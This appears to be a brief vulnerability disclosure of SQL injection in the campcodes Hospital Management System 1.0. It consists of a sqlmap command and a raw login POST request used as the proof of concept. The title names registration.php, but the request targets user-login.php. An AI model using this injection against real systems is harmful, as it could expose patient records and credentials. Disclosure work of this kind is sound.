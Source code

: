 

# Hospital Management System 1.0 - sqli in /hms/registration.php

- Vendor Homepage: https://www.campcodes.com
- Software Link: https://www.campcodes.com/projects/online-hospital-management-system-using-php-and-mysql/
- Version: 1.0

### POC

```bash
sqlmap -r request.txt -p username --technique T --batch --level 5
```



```http
POST /hospital/hms/user-login.php HTTP/1.1
Host: 192.168.177.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Origin: http://192.168.177.1
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Referer: http://192.168.177.1/hospital/hms/user-login.php
Cookie: PHPSESSID=b4ao6mmdbco1bcmr84grm25ihd
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Content-Length: 68

username=test&password=111111&submit=&submit=
```



![image-20250530170822080](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505301708218.png)





![image-20250530172418576](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505301724905.png)